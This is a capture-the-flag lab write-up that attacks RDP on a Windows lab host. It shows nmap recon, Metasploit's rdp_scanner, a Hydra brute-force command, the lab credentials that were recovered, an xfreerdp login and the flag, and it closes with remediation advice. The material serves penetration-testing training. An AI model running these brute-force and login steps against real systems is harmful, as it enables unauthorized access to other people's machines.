










# Windows: Exploiting RDP

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (10.2.25.23) — Windows Server, host `WIN-OMCNBKR66MN`<br>
**RDP port:** 3333 (non-standard)<br>
**Flag:** `port-number-3333`

> `rdesktop` won't work here (no NLA support) — use `xfreerdp`.

## 1. Executive Summary

RDP is exposed on the non-standard port **3333**. We confirm the service with Metasploit's
`rdp_scanner`, brute-force credentials with Hydra (recovering four accounts), and connect
with `xfreerdp` (which supports NLA) to log in interactively and read the flag from `C:\`.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV -p- 10.2.25.23
```

Port 3333 shows as `ssl/dec-notes?` — likely RDP over TLS.





## 3. Fingerprinting RDP

```bash
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.2.25.23
set RPORT 3333
run
```





The scanner confirms an RDP endpoint on 3333.



## 4. Credential Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      rdp://10.2.25.23 -s 3333
```

Four valid credential pairs:

```
sysadmin:samantha | demo:victoria | auditor:elizabeth | administrator:qwertyuiop
```



## 5. Connecting with xfreerdp

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.25.23:3333
```

Accepting the self-signed certificate (CN `WIN-OMCNBKR66MN`) opens the session.







## 6. Capturing the Flag

The flag is in `C:\flag`.

```
port-number-3333
```



## 7. Remediation Recommendations

1. **Enforce strong passwords & lockout** — all four accounts fell to small wordlists;
   moving RDP to a non-standard port is not a security control.
2. **Require Network Level Authentication (NLA)** and TLS with a valid certificate.
3. **Restrict RDP exposure** to a VPN/jump host and trusted IPs; add MFA.
4. **Monitor for RDP brute-force** (failed-logon spikes) and disable unused accounts.
